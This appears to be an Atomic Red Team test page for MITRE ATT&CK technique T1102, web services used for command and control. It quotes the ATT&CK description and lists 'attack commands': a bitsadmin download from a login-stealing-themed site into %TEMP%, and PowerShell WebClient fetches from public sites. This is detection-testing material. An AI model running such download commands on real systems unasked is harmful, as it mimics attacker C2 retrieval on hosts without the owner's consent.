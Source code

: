 # T1102 - Web Service
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1102)
<blockquote>Adversaries may use an existing, legitimate external Web service as a means for relaying commands to a compromised system.

These commands may also include pointers to command and control (C2) infrastructure. Adversaries may post content, known as a dead drop resolver, on Web services with embedded (and often obfuscated/encoded) domains or IP addresses. Once infected, victims will reach out to and be redirected by these resolvers.

Popular websites and social media acting as a mechanism for C2 may give a significant amount of cover due to the likelihood that hosts within a network are already communicating with them prior to a compromise. Using common services, such as those offered by Google or Twitter, makes it easier for adversaries to hide in expected noise. Web service providers commonly use SSL/TLS encryption, giving adversaries an added level of protection.

Use of Web services may also protect back-end C2 infrastructure from discovery through malware binary analysis while also enabling operational resiliency (since this infrastructure may be dynamically changed).</blockquote>

## Atomic Tests

- [Atomic Test #1 - Reach out to C2 Pointer URLs via command_prompt](#atomic-test-1---reach-out-to-c2-pointer-urls-via-command_prompt)

- [Atomic Test #2 - Reach out to C2 Pointer URLs via powershell](#atomic-test-2---reach-out-to-c2-pointer-urls-via-powershell)


<br/>

## Atomic Test #1 - Reach out to C2 Pointer URLs via command_prompt
Download data from a public website using command line

**Supported Platforms:** Windows



#### Attack Commands: Run it with `command_prompt`! 
```
bitsadmin.exe /transfer "DonwloadFile" http://www.stealmylogin.com/ %TEMP%\bitsadmindownload.html
```





<br/>
<br/>

## Atomic Test #2 - Reach out to C2 Pointer URLs via powershell
Multiple download methods for files using powershell

**Supported Platforms:** Windows



#### Attack Commands: Run it with `powershell`! 
```
Invoke-WebRequest -Uri www.twitter.com
$T1102 = (New-Object System.Net.WebClient).DownloadData("https://www.reddit.com/")
$wc = New-Object System.Net.WebClient
$T1102 = $wc.DownloadString("https://www.aol.com/")
```





<br/>
